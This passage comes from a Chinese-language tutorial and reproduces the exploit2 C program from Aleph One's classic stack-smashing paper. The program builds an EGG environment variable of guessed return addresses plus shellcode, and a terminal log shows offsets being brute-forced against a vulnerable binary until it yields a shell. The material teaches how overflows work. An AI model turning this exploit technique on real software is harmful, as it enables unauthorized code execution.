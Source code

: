 ```c
	if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);
    
	if (!(buff = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
	}
    
	addr = get_sp() - offset;
    printf("Using address: 0x%x\n", addr);
    
	ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4) 
        *(addr_ptr++) = addr;
    
	ptr += 4;
    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];
    
	buff[bsize - 1] = '\0'; 
    
    memcpy(buff,"EGG=",4);
    putenv(buff);
    system("/bin/bash");
}

```

现在我们可以尝试去猜buffer和偏移量是什么了

```sh
[aleph1]$ ./exploit2 500 
Using address: 0xbffffdb4 
[aleph1]$ ./vulnerable $EGG 
[aleph1]$ exit 
[aleph1]$ ./exploit2 600 
Using address: 0xbffffdb4 
[aleph1]$ ./vulnerable $EGG 
Illegal instruction 
[aleph1]$ exit 
[aleph1]$ ./exploit2 600 100 
Using address: 0xbffffd4c 
[aleph1]$ ./vulnerable $EGG 
Segmentation fault 
[aleph1]$ exit 
[aleph1]$ ./exploit2 600 200 
Using address: 0xbffffce8 
[aleph1]$ ./vulnerable $EGG 
Segmentation fault 
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit2 600 1564 
Using address: 0xbffff794 
[aleph1]$ ./vulnerable $EGG 
$
```
